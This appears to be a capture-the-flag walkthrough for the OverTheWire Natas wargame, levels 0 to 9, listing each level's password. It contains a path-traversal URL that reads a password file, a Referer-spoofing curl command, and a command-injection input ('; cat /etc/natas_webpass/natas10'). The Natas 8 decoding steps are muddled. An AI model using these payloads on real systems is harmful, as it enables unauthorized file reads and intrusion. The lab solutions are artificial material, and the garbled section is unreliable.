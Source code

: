 # Natas 0
```
http://natas0.natas.labs.overthewire.org
```

was in source code - g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
as the hint suggested

# Natas 1
again in the src code , via ctrl+U:
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

# Natas 2
in the src code there's this :
```
<img src="[files/pixel.png](http://natas2.natas.labs.overthewire.org/files/pixel.png)">
```
so let's look at this dir , dir listing is enabled :
```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

# Natas 3
in the src code:
`<!-- No more information leaks!! Not even Google will find it this time... -->`

so there's this file called robots.txt that lists all the files that google's spider won't crawl
we get this: `/s3cr3t/`
`natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm`

# Natas 4
just use the referer header , this header tells that where the request is coming from :
`Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD`
first refresh the page via refresh button then copy the link above as it includes index.php also to execute logic
use it via `curl -H 'referer: <natas5>' <natas4>`

# Natas 5
think how they login :
* either as login page 
* as cookie
and other things ...
so here it was the cookie just set the login cookie to 1 from devtools via f12 and refresh:
`fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR`

# Natas 6
go to source code :
there it says include-source.html , go to it and it says a code that include `includes/secret.inc` visit it and below that code says if that file's content is equal to what we sent via POST request give flag
`jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr`

# Natas 7
view code: they gave us the file which contains the password `/etc/natas_webpass/natas8`
so classic LFI or path-traversal vuln {both are different in LFI files execute while in path-traversal we can only read} if don't know google them
the payload in the link goes:
`http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8`
`a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB`

# Natas 8
the password is: `3d3d516343746d4d6d6c315669563362`
so we need to look at the src code: it is using 
* base64
* strrev
* bintohex
so -> decode hex -> reverse -> base64 decode
decode from hex:
==QcCtmMml1ViV3b

after reversing and decoding from base64:
oubWYf2kBq
now we decode 
`Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd`

# Natas 9
; cat /etc/natas_webpass/natas10